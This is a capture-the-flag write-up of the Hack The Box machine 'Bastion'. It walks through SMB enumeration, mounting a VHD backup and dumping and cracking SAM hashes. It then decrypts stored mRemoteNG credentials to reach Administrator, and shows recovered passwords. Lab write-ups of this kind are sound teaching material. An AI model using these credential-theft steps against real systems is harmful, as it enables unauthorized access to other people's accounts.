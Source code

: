 ```yaml
---
title: HTB Writeup - BASTION
published: true
---
```


Bastion was an interesting box - all the information needed to compromise the system was pretty much 'right there', with very little real exploitation required other than looking hard and taking what was given. Starting as usual
with an `nmap` scan:

<pre>
<kw>root@kali:~</kw># nmap -sV 10.10.10.134
Starting Nmap 7.70 ( https://nmap.org )
Stats: 0:00:08 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 25.00% done; ETC: 17:33 (0:00:18 remaining)
Nmap scan report for 10.10.10.134
Host is up (0.051s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE      VERSION
22/tcp  open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info:  
OSs: Windows, Windows Server 2008 R2 - 2012;  
CPE: cpe:/o:microsoft:windows
</pre>

Based on the OS and SMB version running, I quickly tried a couple of metasploit modules for a quick fail, but got nothing. However, we can see the SMB shares available with `smbclient`, as anonymous access (with empty password) is allowed:

<pre>
<kw>root@kali:~</kw># smbclient -L //10.10.10.134
Enter WORKGROUP\root's password:  

       Sharename       Type      Comment
       ---------       ----      -------
       ADMIN$          Disk      Remote Admin
       Backups         Disk       
       C$              Disk      Default share
       IPC$            IPC       Remote IPC
</pre>

ADMIN, C, and IPC all require authentication. Let's check out Backups:

<pre>
<kw>root@kali:~</kw># smbclient //10.10.10.134/Backups
Enter WORKGROUP\root's password:  
Try "help" to get a list of possible commands.
<kw>smb: \></kw> ls
 .                                   D        0  Tue Apr 16 06:02:11 2019
 ..                                  D        0  Tue Apr 16 06:02:11 2019
 note.txt                           AR      116  Tue Apr 16 06:10:09 2019
 SDT65CB.tmp                         A        0  Fri Feb 22 07:43:08 2019
 WindowsImageBackup                  D        0  Fri Feb 22 07:44:02 2019

               7735807 blocks of size 4096. 2777562 blocks available
<kw>smb: \></kw> get note.txt
getting file \note.txt of size 116 as note.txt (0.6 KiloBytes/sec)  
<kw>smb: \></kw> exit
<kw>root@kali:~</kw># cat note.txt

Sysadmins: please don't transfer the entire backup file locally, the VPN  
to the subsidiary office is too slow.
</pre>

Before we go any further, let's mount this share on our system, so we don't have to use `smbclient` for everything.

<pre>
<kw>root@kali:~</kw># mkdir /mnt/bastion
<kw>root@kali:~</kw># mount -t cifs //10.10.10.134/Backups /mnt/bastion
Password for root@//10.10.10.134/Backups:   
<kw>root@kali:~</kw># cd /mnt/bastion/
<kw>root@kali:/mnt/bastion</kw># ls -l
total 1
-r-xr-xr-x 1 root root 116 Apr 16 06:10 note.txt
-rwxr-xr-x 1 root root   0 Feb 22  2019 SDT65CB.tmp
drwxr-xr-x 2 root root   0 Feb 22  2019 WindowsImageBackup
</pre>

Poking around leads us to this folder:

<pre>
<kw>root@kali:/mnt/bastion/WindowsImageBackup/L4mpje-PC</kw># ls -l
total 4
drwxr-xr-x 2 root root  0 Feb 22  2019 'Backup 2019-02-22 124351'
drwxr-xr-x 2 root root  0 Feb 22  2019  Catalog
-rwxr-xr-x 1 root root 16 Feb 22  2019  MediaId
drwxr-xr-x 2 root root  0 Feb 22  2019  SPPMetadataCache
</pre>

And within the backup folder, we find these two .vhd files in particular.

<pre>
9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd
9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd
</pre>  

### [](#header-3)Compromising a User

These are virtual hard disks, and contain an entire filesystem. To view that filesystem, we need to mount the vhd file as well. Let's mount the second one.

<pre>
<kw>root@kali:/mnt/bastion/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351</kw>#
guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt/vhd
<kw>root@kali:/mnt/bastion/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351</kw>#
cd /mnt/vhd
<kw>root@kali:/mnt/vhd</kw># ls -la
total 2096729
drwxrwxrwx 1 root root          0 Feb 22  2019 '$Recycle.Bin'
-rwxrwxrwx 1 root root         24 Jun 10  2009  autoexec.bat
-rwxrwxrwx 1 root root         10 Jun 10  2009  config.sys
lrwxrwxrwx 2 root root         14 Jul 14  2009 'Documents and Settings'
-rwxrwxrwx 1 root root 2147016704 Feb 22  2019  pagefile.sys
drwxrwxrwx 1 root root          0 Jul 13  2009  PerfLogs
drwxrwxrwx 1 root root       4096 Jul 14  2009  ProgramData
drwxrwxrwx 1 root root       4096 Apr 11  2011 'Program Files'
drwxrwxrwx 1 root root          0 Feb 22  2019  Recovery
drwxrwxrwx 1 root root       4096 Feb 22  2019 'System Volume Information'
drwxrwxrwx 1 root root       4096 Feb 22  2019  Users
drwxrwxrwx 1 root root      16384 Feb 22  2019  Windows
</pre>

We now have full access to the filesystem. There are no flags present here, but we can extract passwords using the SYSTEM and SAM hives, which could provide access given that this vhd is a backup of the actual Bastion box.

<pre>
<kw>root@kali:/mnt/vhd</kw># cp Windows/System32/config/{SYSTEM,SAM} ~/bastion/
<kw>root@kali:/mnt/vhd</kw># cd ~/bastion/
<kw>root@kali:~/bastion</kw># pwdump SYSTEM SAM
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:<int>26112010952d963c8dc4217daec986d9</int>::
</pre>

The hashes beginning with 'aad3b' and with '31d6c' represent the LM and NT hashes, respectively, of the empty string.
This means the actual Administrator password is not stored here - but the NT hash for user 'L4mpje' is. We'll crack
it with `hashcat`.

<pre>
<kw>root@kali:~/bastion</kw># pwdump SYSTEM SAM > hashes.txt
<kw>root@kali:~/bastion</kw># hashcat -m 1000 hashes.txt
<kw>root@kali:~/bastion</kw># hashcat -m 1000 hashes.txt --show
31d6cfe0d16ae931b73c59d7e0c089c0:
26112010952d963c8dc4217daec986d9:bureaulampje
</pre>

We have the user password! Recall that in our initial `nmap` scan we found an open SSH port...

<pre>
<kw>root@kali:~/bastion</kw># ssh L4mpje@10.10.10.134
L4mpje@10.10.10.134's password:  

Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

<kw>l4mpje@BASTION C:\Users\L4mpje></kw> more Desktop\user.txt
</pre>

### [](#header-3)Privilege Escalation

With the user flag taken, I began looking for avenues of privilege escalation, and before long found some passwords left in xml files:

<pre>
<kw>l4mpje@BASTION C:\Users\L4mpje></kw> findstr /si password *.xml
AppData\Roaming\mRemoteNG\confCons.xml: &lt;Node Name="DC" Type="Connection" Descr=""
Icon="mRemoteNG" Panel="General" Id="500e7d58-662a-44d4-aff0-3a4f547a3fee"  
<int>Username="Administrator"</int> Domain="" <int>Password="aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5d
maPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw=="</int> Hostname="127.0.0.1"
...
RDGatewayUsageMethod="false" InheritRDGatewayHostname="false"  
InheritRDGatewayUseConnectionCredentials="false" InheritRDGatewayUsername="false"
InheritRDGatewayPassword="false" InheritRDGatewayDomain="false" /&gt;
AppData\Roaming\mRemoteNG\confCons.xml: &lt;Node Name="L4mpje-PC" Type="Connection"  
Descr="" Icon="mRemoteNG" Panel="General" Id="8d3579b2-e68e-48c1-8f0f-9ee1347c9128"
<int>Username="L4mpje"</int> Domain="" <int>Password="yhgmiu5bbuamU3qMUKc/uYDdmbMrJZ/JvR1kYe4Bhiu8bXy
bLxVnO0U9fKRylI7NcB9QuRsZVvla8esB"</int> Hostname="192.168.1.75" Protocol="RDP"
...
InheritRDGatewayUsageMethod="false" InheritRDGatewayHostname="false"  
InheritRDGatewayUseConnectionCredentials="false" InheritRDGatewayUsername="false"  
InheritRDGatewayPassword="false" InheritRDGatewayDomain="false" /&gt;
</pre>

mRemoteNG is  a remote connections manager, and is well-known to store passwords very insecurely. The process is, in short, an AES encryption using a publicly known static key, followed by base64 encoding. Really, it's only intended to stop a casual user from reading plaintext passwords - the file should have been deleted.

It would be simple enough to decrypt the password, but to make things even faster we can use [this script](https://gi
thub.com/haseebT/mRemoteNG-Decrypt/) written by haseebT. Let's see what we get by running it on the Administrator password.

<pre>
<kw>root@kali:~/bastion</kw># ./mremoteng_decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0N
w5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==
Password: thXLHM96BeKL0ER2
</pre>

Finally, we login with that password over ssh and grab the root flag.

<pre>
<kw>root@kali:~/bastion</kw># ssh Administrator@10.10.10.134
Administrator@10.10.10.134's password:  

Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

<kw>administrator@BASTION C:\Users\Administrator></kw> more Desktop\root.txt
</pre>

And we're all done. Thanks for reading!

- <kw>j4ckdaw</kw>
